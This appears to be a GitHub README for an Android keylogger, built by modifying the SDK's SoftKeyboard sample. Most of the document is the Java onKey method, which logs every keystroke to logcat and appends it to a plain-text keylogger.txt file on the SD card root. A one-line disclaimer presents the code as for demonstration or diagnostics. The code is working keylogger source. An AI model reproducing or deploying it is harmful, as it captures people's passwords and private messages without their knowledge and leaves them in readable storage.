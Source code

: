 #Android KeyLogger Keyboard

This is a simple modification to the SoftKeyboard sample that is included with the Android SDK. It adds a keylogger that writes output to the root directory of the SD Card (for easy access). This is provided for demonstration / diagnostic purposes only.

The only real change here is to the onKey method of the [SoftKeyboard class](https://github.com/tomgersic/AndroidKeyLogger/blob/master/src/com/example/android/softkeyboard/SoftKeyboard.java):

    public void onKey(int primaryCode, int[] keyCodes) {
    	String keypress = String.valueOf((char)primaryCode);
    	Log.d("Key Pressed",keypress);
    	try{
        	String SDCARD = Environment.getExternalStorageDirectory().getAbsolutePath();
        	String FILENAME = "keylogger.txt";

    		File outfile = new File(SDCARD+File.separator+FILENAME);
    		FileOutputStream fos = new FileOutputStream(outfile,true);
    		fos.write(keypress.getBytes());
    		fos.close();
    	}catch(Exception e) {
    		Log.d("EXCEPTION",e.getMessage());
    	}